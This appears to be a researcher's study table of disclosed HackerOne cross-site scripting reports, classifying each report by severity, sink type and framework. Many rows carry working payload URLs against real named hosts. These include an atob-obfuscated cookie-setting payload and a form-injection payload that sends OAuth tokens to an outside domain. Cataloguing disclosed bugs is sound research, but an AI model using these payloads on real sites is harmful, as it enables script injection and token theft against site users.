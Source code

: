 |Title|URL|Severity|Payload|Sink Type|Framework|(if sink is not HTML) what needs the sink?|Personally Interesting :)|Memo|Program|
| --- | --- | --- | --- | --- | --- | --- | --- | --- | --- | 
|oem.acronis.com Reflected Cross Site Scripting|https://hackerone.com/reports/2038943|Med|`https://oem.acronis.com/test/testenv.html/%3C/pre%3E%3Cisindex%20type%3Dimage%20src%3D1%20onerror%3Dalert%289166%29%3E%3Cscript%3Ealert(origin)%3C/script%3E`|HTML DOM|-|-|-|it's test page. so maybe no validation. framework unknown|Acronis|
|DOM Based Reflected Cross Site Scripting|https://hackerone.com/reports/2321874|High|"`<form><math><mtext></form><form><mglyph><svg><mtext><textarea><path id=""</textarea><img onerror=alert('textarea') src=1>""></form>`"|lib vuln|Swagger|-|x|Swagger with vulnerable version DOMPurify. mXSS.|-|
|[ CVE-2018-1000129 ] RXSS At `https://` via the URI|https://hackerone.com/reports/2778412|Med|`https://█████%3Csvg%20onload=alert%28'1337'%29%3E?mimeType=text/html`|HTML DOM|-|-|-|svg. framework unknown|DoD|
|XSS Reflected|https://hackerone.com/reports/2741110|Med|`https://www.██████/tags/image/sizzle-reel?&view=K0X%22%20AutoFocus%20%2526%252362%20OnFocus%0c%3dprompt%601%60%20kaos%3d%22uwps2&sort=date`|HTML Attr escape|-|maybe src of image or video|x|double decode of HTML entity and URL encode. framework unknown.|-|
|Reflected XSS on formaction parameter|https://hackerone.com/reports/2089895|Med|-|unknown|-|-|-|detailes unknown.|-|
|Potential XSS Vulnerability in Acronis Login Callback URL|https://hackerone.com/reports/2611305|High|`https://learn.acronis.com/portal/login-callback?redirectUrl=javascript:alert(document.domain)`|JS URL|-|redirect|x|framework unknown.|-|
|Potential XSS in redirect_url Parameter|https://hackerone.com/reports/2653342|Med|`https://learn.acronis.com/portal/licensing-check?redirect_url=javascript:alert(document.domain)`|JS URL|-|redirect|x|framework unknown.|-|
|Stored XSS on trix editor version 2.1.1|https://hackerone.com/reports/2521419|High|crafted HTML|lib vuln|Trix|-|x|WYSIWYG. vuln version of lib.|-|
|Blind XSS on admin.acronis.com via delete account form on account.acronis.com|https://hackerone.com/reports/666040|High|-|unknown|-|-|-|unknown.|-|
|Reflected - XSS|https://hackerone.com/reports/1779447|High|`<h1 onauxclick=confirm(document.domain)>RIGHT CLICK HERE`|HTML DOM|-|-|-|self-xss?|mtn|
|Reflected XSS in https://nin.mtn.ng/nin/success?message=lol&nin=<VULNERABLE>|https://hackerone.com/reports/2039384|Critical|`https://nin.mtn.ng/nin/success?message=lol&nin=<script>alert(1)</script>`|HTML DOM|-|-|-|framework unknown.|mtn|
|DOM XSS in tiktok.com/login via the redirect_url parameter|https://hackerone.com/reports/2583874|High|-|JS URL|-|redirect|-|detail unknown.|-|
|"Stored Xss On ""https://www.question.com/"""|https://hackerone.com/reports/1901706|High|`<iframe onload=alert(document.domail)>`|HTML DOM|-|-|-|self-xss?|Drugs.com|
|cross site scripting reflected|https://hackerone.com/reports/1496897|Med|`-alert(1)-`|unknown|-|-|-|unknown.|-|
|Stored XSS in reclamos|https://hackerone.com/reports/1675516|High|`<p><p><p><p><p><p><p><p><audio/src/onerror=alert(document.domain)>.`|HTML DOM|-|-|x|wysiwyg. sanitize confusion|Mercadolibre|
|"Reflected cross site scripting (XSS) attacks Reflected XSS attacks"|https://hackerone.com/reports/1799197|Med|`https://102.176.160.119:10443/remote/error?errmsg=--%3E%3Cscript%3Ealert(document.domain)%3C/script%3E`|HTML DOM|-|-|-|escape comment out xss|mtn|
|XSS found for https://█████████|https://hackerone.com/reports/2670521|Med|`'};alert('XSS');var x={y:'`|JS Others|-|seems to directly input search query to JS|x|-|-|
|XSS on ███████|https://hackerone.com/reports/2615670|Med|`https://█████████/thredds/dap4/%221%3CScRiPt%3Ealert%289218%29%3C%2FScRiPt%3E`|unknown|-|-|-|unknown.|-|
|MetaMask Browser (on Android) does not enforce Content-Security-Policy header|https://hackerone.com/reports/1941767|Med|-|unknown|-|-|-|browser vuln on CSP. not XSS. just related. but interesting.|-|
|Cross-site Scripting (XSS) - Reflected on https://api.mtn.sd/carbon/admin/login.jsp via `msgId` parameter - CVE-2020-17453|https://hackerone.com/reports/1158823|Med|`https://api.mtn.sd/carbon/admin/login.jsp?msgId=%27%3Balert(%27Renzi%27)%2F%2F`|JS Others|-|seems to directly embedded JS|x|-|-|
|Cross-site Scripting (XSS) - Reflected on http://callertunez.mtn.com.gh/wap/noauth/sharedetail.ftl via `callback` parameter|https://hackerone.com/reports/1147176|Med|"`http://callertunez.mtn.com.gh/wap/noauth/sharedetail.ftl?callback="">><img%20src=x%20onerror=confirm(""Renzi"")>&type=`"|HTML Attr escape|Freemaker Template Language|callback???|-|FTL has default escape way: `#excape`.|-|
|RXSS in ███ via S parameter|https://hackerone.com/reports/2307913|Med|-|unknown|-|-|-|detail unknown.|-|
|Cross-site Scripting (XSS) - Reflected on http://h1b4e.n2.ips.mtn.co.ug:8080 via Nginx-module|https://hackerone.com/reports/1159362|Med|`http://h1b4e.n2.ips.mtn.co.ug:8080/status%3E%3Cscript%3Ealert(31337)%3C%2Fscript%3E`|HTML DOM|-|-|-|framework unknown.|mtn|
|Reflected Cross Site Scripting Cisco ASA on myvpn.mtncameroon.net CVE-2020-3580|https://hackerone.com/reports/1247833|Med|"`SAMLResponse=""><svg/onload=alert('Renzi')>`"|lib vuln|Cisco ASA|-|-|attr escape.|-|
|Cross-site Scripting (XSS) - Reflected|https://hackerone.com/reports/1211148|Med|`https://www.drugs.com/imprints.php?imprint=_%22%3E%3C%78%20%69%64%3D%22%78%22%20%76%35%3D%22%29%22%20%76%31%3D%22%3C%22%20%76%32%3D%22%53%43%52%49%50%54%3E%22%20%76%33%3D%22%61%6C%65%22%20%76%34%3D%22%72%74%28%31%22%20%76%36%3D%22%3C%2F%22%20%76%37%3D%22%53%43%52%49%50%54%3E%22%20%6F%6E%70%6F%69%6E%74%65%72%6F%76%65%72%3D%22%64%6F%63%75%6D%65%6E%74%2E%77%72%69%74%65%60%24%7B%77%69%6E%64%6F%77%2E%78%2E%61%74%74%72%69%62%75%74%65%73%2E%76%31%2E%76%61%6C%75%65%2B%77%69%6E%64%6F%77%2E%78%2E%61%74%74%72%69%62%75%74%65%73%2E%76%32%2E%76%61%6C%75%65%2B%77%69%6E%64%6F%77%2E%78%2E%61%74%74%72%69%62%75%74%65%73%2E%76%33%2E%76%61%6C%75%65%2B%77%69%6E%64%6F%77%2E%78%2E%61%74%74%72%69%62%75%74%65%73%2E%76%34%2E%76%61%6C%75%65%2B%77%69%6E%64%6F%77%2E%78%2E%61%74%74%72%69%62%75%74%65%73%2E%76%35%2E%76%61%6C%75%65%2B%77%69%6E%64%6F%77%2E%78%2E%61%74%74%72%69%62%75%74%65%73%2E%76%36%2E%76%61%6C%75%65%2B%77%69%6E%64%6F%77%2E%78%2E%61%74%74%72%69%62%75%74%65%73%2E%76%37%2E%76%61%6C%75%65%7D%60%22%3E&color=8&shape=24`|HTML DOM|-|-|-|framework unknown.|Drugs.com|
|Cross Site Scripting|https://hackerone.com/reports/2587844|Med|`https://www.██████.███████/852585B6003EBA25/Login.html?open&ErrMsg=invalidlogin%22%20test=%22X%22%20onclick=%22confirm(%27H4CKED%20BY%20PRAKHAR0X01%27)`|HTML attr escape|-|unknown|-|framework unknown.|-|
|Blind Stored XSS on the internal host - █████████████|https://hackerone.com/reports/923912|High|-|unknown|-|-|-|detail unknown.|-|
|XSS via /api/v1/chat.postMessage|https://hackerone.com/reports/219957|Critical|`channel=<CHANNEL_NAME>&attachments[0][image_url]=/assets/logo&attachments[0][fields][0][title]=&attachments[0][fields][0][value]=<img src=/assets/logo width=1 height=1 onload=alert('XSS4') />You're Pwned!`|HTML DOM|-|-|-|framework unknown.|Rocket.chat|
|XSS in various MessageTypes|https://hackerone.com/reports/1379400|High|"`snippetId: ""\""><img src=x onerror=alert(1) style=\""display: none;\"" x=\""""`"|HTML Attr escape|-|a tag href|x|2 types of sink. message related.|-|
|XSS in various MessageTypes|https://hackerone.com/reports/1379400|High|"comment: ""<img src=x onerror=alert(1) />"""|HTML DOM|-|-|x|2 types of sink. message related.|Rocket.chat|
|Open Akamai ARL XSS on http://master-config-████████|https://hackerone.com/reports/1315907|Med|`http://master-config-████████/7/0/33/1d/www.citysearch.com/search?what=x&where=place%22%3E%3Csvg+onload=confirm(document.domain)%3E`|HTML DOM|-|-|-|framework unknown.|DoD|
|Open Akamai ARL XSS on http://media.████████|https://hackerone.com/reports/1315898|Med|`http://media.██████/7/0/33/1d/www.citysearch.com/search?what=x&where=place%22%3E%3Csvg+onload=confirm(document.domain)%3E`|HTML Attr escape|-|unknown|-|framework unknown.|-|
|Self XSS|https://hackerone.com/reports/2521186|Med|`<script>alert(document.cookie)</script>`|HTML DOM|-|-|-|framework unknown. self-xss.|melbadry9|
|XSS in IBM InfoCenter|https://hackerone.com/reports/2343548|Med|-|unknown|-|-|-|detail unknown.|-|
|Multiple XSS and open HTTP redirection|https://hackerone.com/reports/2372332|High|-|unknown|-|-|-|detail unknown.|-|
|Reflected XSS of media.indrive.com|https://hackerone.com/reports/2503113|Med|-|unknown|-|-|-|detail unknown.|-|
|[CVE-2024-32464] ActionText ContentAttachment’s can Contain Unsanitized HTML|https://hackerone.com/reports/2542806|Med|-|unknown|-|-|-|detail unknown even on github...?|-|
|Reflected xss on ████████|https://hackerone.com/reports/2389897|Med|-|unknown|-|-|-|detail unknown|-|
|"[Meetup][World ID][OIDC] Insufficient Filtering of ""state"" Parameter in Response Mode form_post leads to XSS and ATO"|https://hackerone.com/reports/2515808|Critical|`https://id.worldcoin.org/login?client_id=app_8ad4dd04557f8b768243904bf76d8db0&response_type=token&redirect_uri=https://lhq.at&scope=openid&state=""><input+type=submit+value=Click!+formaction=//lauritz-holtmann.de>&nonce=test6&ready=test&response_mode=form_post`|HTML Attr escape|-|"OAuth2 form post response mode" necessarily needs url set in action attr in form tag!|x|WAF and CSP bypass. Strictly speaking, not XSS but HTML form Injection. very interesting. framework unknown. https://openid.net/specs/oauth-v2-form-post-response-mode-1_0.html|-|
|[HTAF4-213] [Pre-submission] XSS via arbitrary cookie name at the https://www2.██████/nssi/core/dot_stu_reg/Registration.aspx|https://hackerone.com/reports/728001|Med|`https://███████.███████.mil/kc/main/pop_up_frm.asp?loc=javascript:top[%27ev%27+%27al%27](atob(%27ZG9jdW1lbnQuY29va2llPSd6eno8c2NyaXB0PmFsZXJ0KGRvY3VtZW50LmRvbWFpbik8L3NjcmlwdD49enp6O3BhdGg9Lztkb21haW49LmFmLm1pbCc7IHdpbmRvdy50b3AubG9jYXRpb24uaHJlZiA9ICdodHRwczovL3d3dzIucGV0ZXJzb24uYWYubWlsL25zc2kvY29yZS9kb3Rfc3R1X3JlZy9SZWdpc3RyYXRpb24uYXNweCc7%27))`|JS URL|-|pop up frame (maybe)|x|asp?|-|
|"Stored XSS filter bypass on discussion forum. ""URL"" tag."|https://hackerone.com/reports/1096061|Med|-|unknown|-|-|-|detail unknown|-|
|Stored-XSS injected in Wiki page via Banzai pipeline|https://hackerone.com/reports/2257080|High|crafted markdown|HTML DOM|original sanitizer. but bypassed|-|x|sanitize bypass with mXSS and complicated chain.|gitlab|
|Lynxview JS interfaces Takeover via deeplink traversal|https://hackerone.com/reports/2417516|High|-|unknown|-|-|-|detail unknown|-|
|XSS in Aspera documentation website|https://hackerone.com/reports/2308491|Med|-|unknown|-|-|-|detail unknown|-|
|Reflected XSS via Keycloak on ███ [CVE-2021-20323]|https://hackerone.com/reports/2221104|Med|"`{""<img onerror=confirm('xss_poc_unexpectedbufferc0n') src/>"":1}`"|HTML DOM|-|-|x| id was not escaped but rendered. seems mistake for pollution possibility (taint), or responsibility vanish between BE and FE.|DoD|
|reflected xss [CVE-2020-3580]|https://hackerone.com/reports/2479161|Med|-|unknown|-|-|-|detail unknown|-|
|Reflected Cross-site Scripting via search query on ██████|https://hackerone.com/reports/2434904|Med|`</h6><image/src/onerror=alert(document.cookie)>`|HTML DOM|-|-|-|framework unknown|DoD|
|Reflected XSS on error message on Login Page|https://hackerone.com/reports/2417864|Med|"`https://███████/users/login?error=<img src='x' onerror=""alert(document.domain)"">`"|HTML DOM|-|-|-|framework unknown|DoD|
|Reflected XSS via Moodle on ███ [CVE-2022-35653]|https://hackerone.com/reports/2444032|Med|"`xxx""><img/src%3d'x'onerror%3dalert('document_domain')>=1`"|HTML Attr escape|-|unknown|-|framework unknown|-|
|RXSS in hidden parameter|https://hackerone.com/reports/2090964|Med|-|unknown|-|-|-|detail unknown|-|
|Stored XSS in messages|https://hackerone.com/reports/1669764|Med|`https://example.com/&quot&gtsadf&lt/a&gt&ltimg&#32src=&quotxx&quotonerror=&quotalert&#40&#39XSS&#39&#41&quot&gt`|HTML DOM|-|-|-|framework unknown|Livestream|
|Self XSS in Tag name pattern field /<username>/<reponame>/settings/tag_protection/new|https://hackerone.com/reports/2246576|Med|-|HTML DOM|-|-|-|detail unknown. but it says innerHTML|Github|
|Reflected XSS on Pangle Endpoint|https://hackerone.com/reports/2352968|High|-|JS URL|-|-|-|detail unknown. but it says redirect|-|
|XSS in GOCD Analytics Plugin|https://hackerone.com/reports/2433634|Med|`?msg=%3Csvg%2Fonload%3Dalert%28%22XSS%22%29%20%3E`|HTML DOM|jquery|-|x|jquery no escape html. text() should be used.|GoCD|
|Xss - ███|https://hackerone.com/reports/2353185|Med|`1<ScRiPt>alert(9639)</ScRiPt>`|unknown|-|-|-|framework unknown|-|
|Xss Parameter: /<s>/[*]/<s>.css ████████|https://hackerone.com/reports/2353131|Med|"`/login.php/styles<isindex%20type=image%20src=1%20onerror=chor4o(9939)>/""><BODY%20ONLOAD=alert(0x000123)>/local.css`"|HTML DOM|-|-|-|framework unknown|DoD|
|Parâmetro XSS: Nome de usuário - █████████|https://hackerone.com/reports/2356104|Med|"`Username=ghovjnjv'""()%26%25<zzz><ScRiPt>alert(233)</ScRiPt>`"|HTML Attr escape|-|unknown|-|framework unknown|-|
|Reflective Cross Site Scripting (XSS) on ███████/Pages|https://hackerone.com/reports/1794757|Med|`https://█████████/Pages/default.aspx?FollowSite=0&SiteName=%27-confirm(%27XSSALERT%27)-%27`|lib vuln|Microsoft SharePoint Server|-|-|Microsoft SharePoint Server vuln|-|
|XSS Refelected on jazz.net|https://hackerone.com/reports/2338285|Med|-|unknown|-|-|-|detail unknown|-|
|DOM XSS on multiple Automattic domains through postMessages|https://hackerone.com/reports/2371019|High|`https://widgets.wp.com/sharing-buttons-preview/?custom[0][icon]=iconurl&custom[0][name]=%22%3E%3Cimg%20src%20onerror=alert()%3E` `-`|HTML Attr escape|-|unknown|x|2 XSS chain. XSS.|-|
|DOM XSS on multiple Automattic domains through postMessages|https://hackerone.com/reports/2371019|High|`https://widgets.wp.com/sharing-buttons-preview/?custom[0][icon]=iconurl&custom[0][name]=%22%3E%3Cimg%20src%20onerror=alert()%3E` `-`|HTML Attr escape|-|img src attr|x|2 XSS chain. postMessage vuln. kind of taint mistake.|-|
|CSP bypass on PortSwigger.net using Google script resources|https://hackerone.com/reports/2279346|Med|-|unknown|-|-|-|CSP bypass. not XSS, but nice one.|-|
|Client Side Template Injection to Stored XSS in Image Collection|https://hackerone.com/reports/2234564|High|-|unknown|-|-|-|detail unknown.|-|
|Blind Stored XSS in shopify internal Parquet Viewer|https://hackerone.com/reports/1103298|Med|-|unknown|-|-|-|detail unknown.|-|
|XSS in Subdomain of DuckDuckGo|https://hackerone.com/reports/395734|Med|`https://proxy.duckduckgo.com/iur/?f=1&image_host=http://attackerdomain.com/xsspage`|HTML DOM|-|-|-|framework unknown. with CSP bypass.|Picsart|
|XSS on terra-6.indriverapp.com|https://hackerone.com/reports/1969696|Med|-|unknown|-|-|-|detail unknown.|-|
|Stored XSS on LinkedIn App via iframe tag in Article|https://hackerone.com/reports/2212950|Critical|-|unknown|-|-|-|detail unknown.|-|
|Reflected XSS On [https://www-useast1a.tiktok.com/ug/incentive/share/hd]|https://hackerone.com/reports/2178061|Med|-|unknown|-|-|-|detail unknown.|-|
|RXSS on TikTok endpoints|https://hackerone.com/reports/2280863|Med|-|unknown|-|-|-|detail unknown.|-|
|RXSS via region parameter|https://hackerone.com/reports/2251191|Med|-|unknown|-|-|-|detail unknown.|-|
